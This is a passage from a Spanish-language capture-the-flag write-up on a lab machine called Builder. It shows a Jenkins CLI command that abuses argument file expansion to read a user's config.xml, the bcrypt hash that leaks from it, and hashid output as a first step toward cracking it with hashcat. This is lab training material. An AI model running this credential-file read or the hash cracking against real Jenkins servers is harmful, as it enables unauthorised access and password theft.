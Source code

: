 - Como ya sabemos donde puede estar ese recurso, vamos a intentar verlo en el contenedor de la maquina victima.
![](../assets/images/Builder/Web13.png)
- Ya sabemos como se llama la carpeta.
```ruby
ava -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml 2>&1 | grep -oP "'.*?'"
```

![](../assets/images/Builder/Web14.png)
`$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a` 
- Usaremos hashcat para hacerlo desencriptar el password:
1. Identificamos el tipo de hash 
```ruby
❯ hashid '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a'
Analyzing '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
